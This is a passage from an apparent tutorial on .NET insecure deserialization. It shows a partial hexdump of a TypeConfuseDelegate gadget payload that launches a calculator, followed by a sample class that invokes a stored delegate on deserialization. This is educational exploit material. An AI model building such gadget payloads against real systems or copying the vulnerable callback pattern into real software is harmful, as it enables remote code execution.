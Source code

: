 ```
00000760  2e 50 72 6f 63 65 73 73  20 53 74 61 72 74 28 53  |.Process Start(S|
00000770  79 73 74 65 6d 2e 53 74  72 69 6e 67 2c 20 53 79  |ystem.String, Sy|
00000780  73 74 65 6d 2e 53 74 72  69 6e 67 29 08 00 00 00  |stem.String)....|
00000790  0a 01 0a 00 00 00 09 00  00 00 06 16 00 00 00 07  |................|
000007a0  43 6f 6d 70 61 72 65 09  0c 00 00 00 06 18 00 00  |Compare.........|
000007b0  00 0d 53 79 73 74 65 6d  2e 53 74 72 69 6e 67 06  |..System.String.|
000007c0  19 00 00 00 2b 49 6e 74  33 32 20 43 6f 6d 70 61  |....+Int32 Compa|
000007d0  72 65 28 53 79 73 74 65  6d 2e 53 74 72 69 6e 67  |re(System.String|
000007e0  2c 20 53 79 73 74 65 6d  2e 53 74 72 69 6e 67 29  |, System.String)|
000007f0  06 1a 00 00 00 32 53 79  73 74 65 6d 2e 49 6e 74  |.....2System.Int|
00000800  33 32 20 43 6f 6d 70 61  72 65 28 53 79 73 74 65  |32 Compare(Syste|
00000810  6d 2e 53 74 72 69 6e 67  2c 20 53 79 73 74 65 6d  |m.String, System|
00000820  2e 53 74 72 69 6e 67 29  08 00 00 00 0a 01 10 00  |.String)........|
00000830  00 00 08 00 00 00 06 1b  00 00 00 71 53 79 73 74  |...........qSyst|
00000840  65 6d 2e 43 6f 6d 70 61  72 69 73 6f 6e 60 31 5b  |em.Comparison`1[|
00000850  5b 53 79 73 74 65 6d 2e  53 74 72 69 6e 67 2c 20  |[System.String, |
00000860  6d 73 63 6f 72 6c 69 62  2c 20 56 65 72 73 69 6f  |mscorlib, Versio|
00000870  6e 3d 34 2e 30 2e 30 2e  30 2c 20 43 75 6c 74 75  |n=4.0.0.0, Cultu|
00000880  72 65 3d 6e 65 75 74 72  61 6c 2c 20 50 75 62 6c  |re=neutral, Publ|
00000890  69 63 4b 65 79 54 6f 6b  65 6e 3d 62 37 37 61 35  |icKeyToken=b77a5|
000008a0  63 35 36 31 39 33 34 65  30 38 39 5d 5d 09 0c 00  |c561934e089]]...|
000008b0  00 00 0a 09 0c 00 00 00  09 18 00 00 00 09 16 00  |................|
000008c0  00 00 0a 0b                                       |....|
```

Trying to deserialize the above object would cause a calculator to spawn on the system. As observable from the command, we used the gadget `TypeConfuseDelegate` as a valid gadget for exploitation, the process used by this gadget is different yet similar to the one used above by our custom implemented RCE class. 

Before digging deep into the process used by `TypeConfuseDelegate`, let's first describe how the Delegate class is used in the .NET architecture, and how it can be exploited by insecure deserialization in a similar way to the above RCE class. Let's then consider the following class:

```csharp
[Serializable] 
public class WrapEvent : IDeserializationCallback
{
    Delegate _delegated;
    string _parameters;
    public WrapEvent(Delegate delegated, string parameters)
    {
        _delegated = delegated;
        _parameters = parameters;
    }
    public bool Run()
    {
        return (bool)_delegated.DynamicInvoke(_parameters);
    }

    public void OnDeserialization(object sender)
    {
        Run();
    }
}
```
